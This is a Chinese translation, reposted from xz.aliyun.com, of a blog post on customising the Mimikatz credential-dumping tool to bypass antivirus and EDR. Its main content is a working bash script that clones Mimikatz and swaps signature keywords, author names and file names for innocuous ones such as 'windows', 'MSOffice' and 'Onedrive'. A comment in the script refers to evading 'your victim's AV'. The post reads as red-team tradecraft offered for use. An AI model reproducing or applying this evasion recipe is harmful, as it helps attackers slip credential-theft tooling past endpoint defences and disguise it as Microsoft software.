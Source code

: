 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/8332)

```
译文声明
本文是翻译文章，文章原作者 S3cur3Th1sSh1t
原文地址：https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/

译文仅供参考，具体内容表达以及含义原文为准
```

这篇文章将介绍如何通过修改源码来构建一个定制的 Mimikatz，以达到 Bypass AV/EDR 的目的。

### 0x00 介绍

如同上一篇文章文末说承诺的一样，本文主要讲述如何构建一个定制的 Mimikatz 二进制文件。在几个月前，我第一次进行尝试，将二进制文件集成到 [WinPwn](https://github.com/S3cur3Th1sSh1t/WinPwn) 中，使用反射的方式加载。那时候有人问我，这个混淆的 Mimikatz 是怎么来的，因此我现在分享这个混淆定制的过程。

只要有心，在搜索引擎中确实能够发现很多关于如何混淆 Mimikatz 的文章。但大多数文章都集中在绕过 AMSI 的 `Invoke-Mimikatz` 及使用其他混淆工具，但几乎没有发现重新定制一个 Mimikatz。但是，在几个月前的一个[发现](https://gist.github.com/imaibou/92feba3455bf173f123fbe50bbe80781) 对我有了很大的启发，为此构建了一个 Mimikatz 的定制版。

```
# This script downloads and slightly "obfuscates" the mimikatz project.
# Most AV solutions block mimikatz based on certain keywords in the binary like "mimikatz", "gentilkiwi", "benjamin@gentilkiwi.com" ..., 
# so removing them from the project before compiling gets us past most of the AV solutions.
# We can even go further and change some functionality keywords like "sekurlsa", "logonpasswords", "lsadump", "minidump", "pth" ....,
# but this needs adapting to the doc, so it has not been done, try it if your victim's AV still detects mimikatz after this program.

git clone https://github.com/gentilkiwi/mimikatz.git windows
mv windows/mimikatz windows/windows
find windows/ -type f -print0 | xargs -0 sed -i 's/mimikatz/windows/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/MIMIKATZ/WINDOWS/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/Mimikatz/Windows/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/DELPY/James/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/Benjamin/Troy/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/benjamin@gentilkiwi.com/jtroy@hotmail.com/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/creativecommons/python/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/gentilkiwi/MSOffice/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/KIWI/ONEDRIVE/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/Kiwi/Onedrive/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/kiwi/onedrive/g'
find windows/ -type f -name '*mimikatz*' | while read FILE ; do
    newfile="$(echo ${FILE} |sed -e 's/mimikatz/windows/g')";
    mv "${FILE}" "${newfile}";
done
find windows/ -type f -name '*kiwi*' | while read FILE ; do
    newfile="$(echo ${FILE} |sed -e 's/kiwi/onedrive/g')";
    mv "${FILE}" "${newfile}";
done


```
